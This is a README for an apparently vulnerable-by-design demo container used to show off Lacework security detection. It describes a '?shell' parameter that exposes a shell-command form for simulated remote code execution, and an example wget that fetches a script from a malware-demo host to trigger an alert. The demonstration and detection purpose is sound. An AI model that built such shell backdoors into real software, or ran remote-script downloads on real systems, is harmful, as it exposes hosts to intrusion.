 # Kili Demo-App

Simple web demo application with vulnerabilities (couple of low, medium and high) OS and python vulnerabilites).

The original image is based on a public hosted image and can be pulled like this:

```shell
docker pull ghcr.io/timarenz/lacework-demo-app:latest
```

When running this container make sure you map port `5000` (thats where the web app is listening on).

The container contains tools like `curl`, `wget`, `jq` and a full blown `bash` shell.

When accessing the application you see a single website and a random cocktail on the lower left side.
With every page load the app reads a random cocktail from `https://www.thecocktaildb.com` to simulate outgoing traffic to an external external host.

In addition if you load the page with the `?shell` parameter, like `http://<IPorFQDN>:5000/?shell` a small terminal icon will apear on the lower left.
Clicking this will open a form that allows you to run shell commands within the container to simluate a "RCE".

A simple example is running `wget  http://lwmalwaredemo.com/install-demo-1.sh` which triggers a critical alert in Lacework.

```shell
lw-scanner image evaluate ghcr.io/timarenz/lacework-demo-app latest --save
```

This gives you more visibility in the vulnerabilities view.
